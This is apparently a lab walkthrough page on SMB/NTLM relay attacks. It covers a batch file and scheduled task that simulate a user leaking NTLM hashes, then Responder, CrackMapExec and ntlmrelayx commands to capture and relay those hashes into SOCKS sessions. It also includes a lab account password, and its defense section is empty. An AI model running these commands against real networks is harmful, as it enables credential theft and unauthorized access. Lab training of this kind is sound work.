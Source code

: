 # SMB Relaying

## Configuring

Login with an 'Administrator' account created for this attack.

With this attack we need some kind of 'user behaviour', so simulate this we're going to make use of a 'scheduled task' which is running a batch file every 5 minutes. Within the batch file we need to simulate that an user is going to a wrong share within the network. Inside the batch file is the following code:

```
@ECHO OFF
SETLOCAL ENABLEEXTENSIONS
SET BaseRange=192.168.248
SET Min=1
SET Max=25
SET Counter=0

FOR /L %%A in (%Min%,1,%MAX%) DO (
ECHO Downloading Backup %BaseRange%.%%A
copy \\%BaseRange%.%%A\laptop_data c:\users\pukcab\documents\old_data >nul 2>&1 &&SET /A Counter+=1
)
```

`SET BaseRange` is the IP-range where our kali machine is located. `Set Min` and `set Max`, is the specific host within this ip-range. Our kali machine is located within the IP-range `192.168.248.1` through `192.168.248.25`

The for loop is going to loop through the IP-range and tries to 'copy' a file from a non-existing share. This will result in leaking the NTLM-hash.

We need to save this file to a location accessible for the user who's going to run the bat-file. In our example the user who's going to run the scheduled task is `pukcab`. We have put the file inside the documents folder.

{% hint style="info" %}
The range in our ESXI lab for our kali machines is different because we get access by VPN. For recreating the lab the following settings should be used:

```
SET BaseRange=10.0.0
SET Min=128
SET Max=150
```
{% endhint %}

#### Creating a scheduled task

1\. Open up 'Task Scheduler'.

![](<../../.gitbook/assets/afbeelding (29) (1) (1).png>)

2\. Select "Task Scheduler Library" and click "create a new task".

![](<../../.gitbook/assets/afbeelding (26) (1) (1).png>)

3\. In the "General" tab, select "Run whetever user is logged on or not". Also we need to change the user, this can be done by clicking on "Change User..." and login with the user we have created for this attack, in our case `pukcab:Bangbang123` .

![](<../../.gitbook/assets/afbeelding (9) (1).png>)

4\. At the 'Triggers' tab, click on "New...". Within the new tab, set 'Begin the task:' on "At startup". Check "Repeat task every:" and set the value "5 minutes" and set 'for a duration of:' to "indefinitely".

![](<../../.gitbook/assets/afbeelding (4).png>)

5\. In the "Actions" tab click on "New..." and browse to your .bat file and click on "OK". You should have about the same as us:

![](<../../.gitbook/assets/afbeelding (6) (1).png>)

6\. Conditions doesn't need any change, so we can go to the last tab called "Settings". Within "Settings" the only thing we need to change is "Do not start a new instance" to "Run a new instance in parallel".

![](../../.gitbook/assets/afbeelding.png)

7\. Click on "OK" and fill in the credentials of the user. After we restart our workstation, the scheduled task will run every 5 minutes.

## Attacking

### How it works

If an attacker has access to a network, which is also used by people inside the company. The attacker can listen to traffic and reply to it. The traffic can contain Net-NTLM-hashes.

When a person wants access to a network device, like a file storage, Net-NTLM-hashes are sent to the device. The Net-NTLM-hash is sent to let the network-device know, who's connecting to it.&#x20;

But, why is an attacker intercepting the Net-NTLM-hash? Sometimes it can happen, that an old shortcut is still in use. But the shortcut points to an old server. The user doesn't even need to click the shortcut, but when an user opens the file explorer and the shortcut is there, Windows will automatically load it.

An attacker can take advantage of this and place on every network device he has access to, a shortcut, which points to his machine. During the configuration phase, we've created an user, who's trying to connect to an old Windows server, to store his files.

### Tools

[Responder](https://github.com/lgandx/Responder)

CrackMapExec

[Impacket-ntlmrelayx](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/ntlmrelayx.py)

### Executing the attack

First we will run Responder, to look for traffic within our network. If we notice an user is active, we will try to relay the Net-NTLM-hash. The command we will run, to look passively:

```
sudo responder -I tun0 -A
```

{% hint style="info" %}
Our interface is tun0, this is because we're connected to a VPN.
{% endhint %}

After a few minutes you notice a NTLMv2-SSP hash from the user pukcab:

![](<../../.gitbook/assets/image (73).png>)

We can try to crack the NTLMv2 hash or relay the hash to Windows machines, which has SMB signing on false. In this example we will try to relay the hash. More information about cracking hashes, can be found [here](../../lab-setup/to-do.md).

For relaying hashes we're going to use a package of impacket, called ntlmrelayx. But before we're going to use ntlmrelayx, we need to know which host has SMB signing on false. For this we use CrackMapExec. To view manually which hosts in a specific subnet has SMB signing on false, we will run the following command:

```
crackmapexec smb 10.0.0.0/24
```

![In the end you notice (signing:False)](<../../.gitbook/assets/image (28).png>)

CracMapExec also has a function to generate a list of hosts, which has SMB signing on false. To create this list, you need to run the following command:

```
crackmapexec smb 10.0.0.0/24 --gen-relay-list smb-signing-false.txt
```

The generated list we can use with the tool ntlmrelayx. The below command, will try to authenticate with the Net-NTLM-hash and try to dump the Sam. Dumping the Sam is only possible, when you have administrator access to the machine.

```
sudo ntlmrelayx.py -tf smb-signing-false.txt -smb2support
```

Within some minutes we see something happening within ntlmrelayx, it's trying to relay the hash to the hosts which are inside our .txt. We notice it succeeded two times to authenticate, but access is denied after.

![](<../../.gitbook/assets/image (74).png>)

So, what can we do after this attempt has failed? We can try to the socks parameter within ntlmrelayx. The socks parameter, will try to authenticate and remember the connection in the background. The command we will run is as follows:

```
sudo ntlmrelayx.py -tf smb-signing-false.txt -smb2support -socks
```

After a few minutes, we get new output within ntlmrelayx. But this time, we see _adding user to active SOCKS connection. Enjoy._ This means, we have an active connection to two machines.

![](<../../.gitbook/assets/image (19).png>)

We can verify our connection by pressing enter until we see _ntlmrelayx>_ . Now we can type _socks_ and we see the machines, where we have succesfully relayed our hashes to.

![](<../../.gitbook/assets/image (58).png>)



## Defending

### Recommendations



### Detection





## References

{% embed url="https://infosecwriteups.com/abusing-ntlm-relay-and-pass-the-hash-for-admin-d24d0f12bea0" %}
